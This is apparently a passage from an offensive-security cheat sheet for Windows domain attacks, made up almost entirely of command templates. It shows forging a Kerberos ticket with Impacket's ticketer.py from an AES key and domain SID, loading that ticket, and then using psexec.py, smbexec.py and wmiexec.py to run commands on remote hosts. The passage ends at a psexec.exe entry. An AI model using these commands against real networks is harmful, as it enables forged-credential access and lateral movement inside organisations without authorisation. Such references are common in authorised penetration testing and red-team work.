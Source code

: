 ### to generate the TGT with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>`

### set the ticket for impacket use
- `export KRB5CCNAME=<TGS_ccache_file>`

> search for psexec.py, smbexec.py or wmiexec.py

---

# psexec.py
- service: rpc
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---
# smbexec.py
- service: smb
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---

# wmiexec.py
- service: wmi
- tactics: lateral_movement
- suites: impacket

## Execute remote commands with any of the following by using the TGT
- `python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass`

---

# psexec.exe
- service: smb
- tactics: lateral_movement
- suites: pstools
